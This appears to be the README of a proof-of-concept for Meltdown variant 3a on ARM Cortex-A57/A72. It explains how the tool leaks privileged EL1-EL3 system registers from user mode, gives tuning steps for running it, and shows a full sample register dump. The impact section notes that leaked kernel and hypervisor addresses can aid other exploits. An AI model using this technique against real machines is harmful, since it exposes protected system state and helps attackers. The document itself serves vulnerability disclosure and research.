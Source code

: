 PoC code implementing variant 3a of the Meltdown attack for AArch64. This allows reading all (potentially excluding registers whose read has side effects - not verified) system registers from user mode, including those which should only be accessible from the EL1 (kernel), EL2 (hypervisor) and EL3 (secure monitor) modes.

See the [ARM whitepaper]((https://developer.arm.com/support/security-update)) and the [Meltdown vulnerability](https://spectreattack.com/).

Confirmed to be working on Cortex-A57 and Cortex-A72.


Impact
------

Infoleaks of potentially sensitive data from the OS, hypervisor or secure monitor. No cryptographic keys or user data are expected to be exposed in most cases. So far, I've identified 3 potentially interesting uses for this:

1) confirming the presence of a hypervisor and/or secure monitor on the machine
2) detecting the use of hardware debugging or profiling tools
3) obtaining valid addresses of software running in EL1-EL3 (from the registers containing pointers to the page tables, the exception vector, etc) - potentially useful in developing or deploying exploits for other vulnerabilities in this software


Running it
----------

The access timing is done using a second thread which increments a counter, which means that at least 2 cores need to be online and (close to) idle. DVFS might have to be disabled. In a big.LITTLE system, pin this process to the big cores. Cortex-A57 and Cortex-A72 are the only AArch64-capable cores designed by ARM which are vulnerable (to this variant of Meltdown). Note that bit-level errors are possible, although they should be rare.


Sample output
-------------

The registers marked *dynamic* denote the registers which do not appear to have a constant value during the sampling process. In the sample below, these are the *Generic Timer* registers (CNT\*) and the *Interrupt Status Register* (ISR_EL1).

```
$ ./dump_sys_regs
ACTLR_EL1           : 0x0 
ACTLR_EL2           : 0x73 
ACTLR_EL3           : 0x73 
AIDR_EL1            : 0x0 
AFSR0_EL1           : 0x0 
AFSR0_EL2           : 0x0 
AFSR0_EL3           : 0x0 
AFSR1_EL1           : 0x0 
AFSR1_EL2           : 0x0 
AFSR1_EL3           : 0x0 
AMAIR_EL1           : 0x0 
AMAIR_EL2           : 0x0 
AMAIR_EL3           : 0x0 
CCSIDR_EL1          : 0x70ffe07a 
CLIDR_EL1           : 0xa200023 
CPACR_EL1           : 0x300000 
CPTR_EL2            : 0x33ff 
CPTR_EL3            : 0x0 
CSSELR_EL1          : 0x2 
CTR_EL0             : 0x8444c004 
DISR_EL1            : 0x0 
ERRIDR_EL1          : 0x0 
ERRSELR_EL1         : 0x0 
ERXADDR_EL1         : 0x0 
ERXCTLR_EL1         : 0x0 
ERXFR_EL1           : 0x0 
ERXMISC0_EL1        : 0x0 
ERXMISC1_EL1        : 0x0 
ERXSTATUS_EL1       : 0x0 
ESR_EL1             : 0x56000000 
ESR_EL2             : 0x0 
ESR_EL3             : 0x5e000000 
HACR_EL2            : 0x0 
HCR_EL2             : 0x80000000 
ID_AFR0_EL1         : 0x0 
ID_DFR0_EL1         : 0x3010066 
ID_ISAR0_EL1        : 0x2101110 
ID_ISAR1_EL1        : 0x13112111 
ID_ISAR2_EL1        : 0x21232042 
ID_ISAR3_EL1        : 0x1112131 
ID_ISAR4_EL1        : 0x11142 
ID_ISAR5_EL1        : 0x11121 
ID_ISAR6_EL1        : 0x0 
ID_MMFR0_EL1        : 0x10201105 
ID_MMFR1_EL1        : 0x40000000 
ID_MMFR2_EL1        : 0x1260000 
ID_MMFR3_EL1        : 0x2102211 
ID_MMFR4_EL1        : 0x0 
ID_PFR0_EL1         : 0x131 
ID_PFR1_EL1         : 0x11011 
ID_AA64DFR0_EL1     : 0x10305106 
ID_AA64ISAR0_EL1    : 0x11120 
ID_AA64ISAR1_EL1    : 0x0 
ID_AA64MMFR0_EL1    : 0x1124 
ID_AA64MMFR1_EL1    : 0x0 
ID_AA64MMFR2_EL1    : 0x0 
ID_AA64PFR0_EL1     : 0x2222 
IFSR32_EL2          : 0x0 
LORC_EL1            : 0x0 
LORID_EL1           : 0x0 
LORN_EL1            : 0x0 
MDCR_EL3            : 0x0 
MIDR_EL1            : 0x411fd073 
MPIDR_EL1           : 0x80000103 
PAR_EL1             : 0x7f99305000 
RVBAR_EL3           : 0xf6000000 
REVIDR_EL1          : 0x0 
SCTLR_EL1           : 0x34d5d91d 
SCTLR_EL3           : 0xcd183f 
TCR_EL1             : 0x34b5193519 
TCR_EL2             : 0x80800000 
TCR_EL3             : 0x8080351d 
TTBR0_EL1           : 0xf89f0000d4454000 
TTBR0_EL2           : 0x0 
TTBR0_EL3           : 0x30010b00 
TTBR1_EL1           : 0x8133f000 
TTBR1_EL2           : 0x0 
VDISR_EL2           : 0x0 
VSESR_EL2           : 0x0 
VTCR_EL2            : 0x80000000 
VTTBR_EL2           : 0x0 
AFSR0_EL12          : 0x0 
AFSR1_EL12          : 0x0 
AMAIR_EL12          : 0x0 
CNTFRQ_EL0          : 0x1dcd650 
CNTHCTL_EL2         : 0x3 
CNTHP_CTL_EL2       : 0x0 
CNTHP_CVAL_EL2      : 0x0 
CNTHP_TVAL_EL2      : 0x65a29ee7 (dynamic?)
CNTHV_CTL_EL2       : 0x0 
CNTHV_CVAL_EL2      : 0x0 
CNTHV_TVAL_EL2      : 0x0 
CNTKCTL_EL1         : 0xc6 
CNTKCTL_EL12        : 0x0 
CNTP_CTL_EL0        : 0x0 
CNTP_CTL_EL02       : 0x0 
CNTP_CVAL_EL0       : 0x12878de2 
CNTP_CVAL_EL02      : 0x0 
CNTP_TVAL_EL0       : 0x7801a980 (dynamic?)
CNTP_TVAL_EL02      : 0x0 
CNTPCT_EL0          : 0x162db9aa576c0 (dynamic?)
CNTPS_CTL_EL1       : 0x0 
CNTPS_CVAL_EL1      : 0x0 
CNTPS_TVAL_EL1      : 0x6539bd20 (dynamic?)
CNTV_CTL_EL0        : 0x0 
CNTV_CTL_EL02       : 0x0 
CNTV_CVAL_EL0       : 0x0 
CNTV_CVAL_EL02      : 0x0 
CNTV_TVAL_EL0       : 0x6516d1c0 (dynamic?)
CNTV_TVAL_EL02      : 0x0 
CNTVCT_EL0          : 0x162db9b090480 (dynamic?)
CNTVOFF_EL2         : 0x0 
CONTEXTIDR_EL1      : 0x0 
CONTEXTIDR_EL12     : 0x0 
CONTEXTIDR_EL2      : 0x0 
CPACR_EL12          : 0x0 
CPTR_EL3            : 0x0 
DACR32_EL2          : 0x0 
ESR_EL12            : 0x0 
FAR_EL1             : 0x0 
FAR_EL12            : 0x0 
FAR_EL2             : 0x0 
FAR_EL3             : 0x0 
FPEXC32_EL2         : 0x7f99305000 
HPFAR_EL2           : 0x0 
HSTR_EL2            : 0x0 
ID_AA64AFR0_EL1     : 0x0 
ID_AA64AFR1_EL1     : 0x0 
ID_AA64DFR1_EL1     : 0x0 
ID_AA64PFR1_EL1     : 0x0 
ISR_EL1             : 0x0 (dynamic?)
LOREA_EL1           : 0x0 
LORSA_EL1           : 0x0 
MAIR_EL1            : 0xbbff440c0400 
MAIR_EL12           : 0x0 
MAIR_EL2            : 0x0 
MAIR_EL3            : 0x4404ff 
MDCR_EL2            : 0x6 
MVFR0_EL1           : 0x10110222 
MVFR1_EL1           : 0x12111111 
MVFR2_EL1           : 0x43 
RMR_EL3             : 0x1 
SCR_EL3             : 0x535 
SCTLR_EL12          : 0x0 
SCTLR_EL2           : 0x30c50830 
SDER32_EL3          : 0x0 
TCR_EL12            : 0x0 
TPIDR_EL0           : 0x7f993066f0 
TPIDR_EL1           : 0x1fed81000 
TPIDR_EL2           : 0x0 
TPIDR_EL3           : 0x30010f80 
TPIDRRO_EL0         : 0x0 
TTBR0_EL12          : 0x0 
TTBR1_EL12          : 0x0 
VBAR_EL1            : 0xffffffc000083800 
VBAR_EL12           : 0x0 
VBAR_EL2            : 0x8008a000 
VBAR_EL3            : 0x3000a800 
VMPIDR_EL2          : 0x80000103 
VPIDR_EL2           : 0x411fd073
```
